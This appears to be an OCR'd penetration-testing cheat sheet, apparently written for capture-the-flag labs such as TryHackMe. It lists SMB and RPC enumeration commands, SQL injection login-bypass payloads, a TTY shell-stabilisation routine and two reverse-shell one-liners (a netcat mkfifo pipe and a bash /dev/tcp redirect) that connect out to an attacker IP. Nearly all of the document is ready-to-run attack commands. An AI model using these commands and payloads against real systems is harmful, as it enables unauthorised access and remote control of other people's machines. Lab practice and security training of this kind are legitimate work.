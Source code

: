 ### SMB Port 445,139 & RPC Port 111,135

```sh
enum4linux -a $IP
nmap -p 139,445 192.168.1.1/24 --script smb-enum-shares.nse smb-os-discovery.nse
nmap --script rpcinfo.nse $IP -p 111
rpcclient -U "" -N
smbclient -L $IP
smbclient \\\\hack.thm\\websvr
showmount -e $IP
smbmap -H hack.thm -R 
smbmap -H $IP -d <domain> -u <user> -p <password>
mount -t cifs //$IP/<share> <local dir> -o username="guest", password=""
```

## SQL Injection

`OR 1=1` can be dangerous if an UPDATE/DELETE is done after the SELECT

Prefer using (you have to know the username)
- admin'; -- -
- admin' AND '1'='1

That way, SELECT will return only one row

https://book.hacktricks.xyz/pentesting-web/sql-injection

## SHELL

### Stable Shell

```sh
python -c 'import pty;pty.spawn("/bin/bash")'
OR
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm
CTRL+Z
stty raw -echo; fg
[2xENTER]
```

```sh
alias ll='ls -lah --color'
```

### Reverse shell

```sh
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.129.247 1234 >/tmp/f
```

```sh
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.9.129.247/1234 0>&1'
```
